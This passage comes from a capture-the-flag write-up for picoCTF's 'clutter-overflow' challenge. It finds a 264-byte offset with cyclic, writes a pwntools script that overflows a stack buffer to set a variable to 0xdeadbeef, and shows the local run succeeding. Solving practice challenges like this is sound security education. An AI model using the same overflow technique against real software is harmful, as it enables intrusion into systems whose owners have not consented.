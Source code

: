 ```bash
zsh: done                cat pattern_300.txt | 
zsh: segmentation fault  ./chall
```

The returned value is `0x6361617263616171`. Let's look this up
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6361617263616171
264
```

So the offset from the beginning to the `code` variable is `264`.

### Write an exploit

Let's write a small exploit in Python
```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 264
padding = b'A'

goal = p64(0xdeadbeef)
payload = padding*offset + goal
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./chall
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
cat: flag.txt: No such file or directory
```
